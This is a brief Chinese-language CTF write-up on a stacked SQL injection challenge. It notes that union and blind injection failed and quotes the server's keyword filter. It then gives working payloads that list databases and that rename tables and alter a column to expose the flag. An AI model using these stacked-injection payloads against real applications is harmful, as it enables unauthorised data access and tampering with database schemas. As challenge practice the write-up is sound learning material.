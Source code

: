 只能说：sql注入之路道阻且长：

开始试了一下普通的sql注入中的union注入、盲注都不行：

于是查看题解了；发现是堆叠注入；

输入下列指令查看sql数据库名：

```sql
1'; show databases;#
```

注意1后面要有',把这个语句闭合后可以输入新的语句（stack injection）

然后发现有过滤return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);

过滤了select 、update、delete、drop、insert、where

于是可以用rename、和alter语句来搞事：

```sql
1';rename tables `words` to `words1`;rename tables `1919810931114514` to `words`; alter table `words` change `flag` `id` varchar(100);#
```

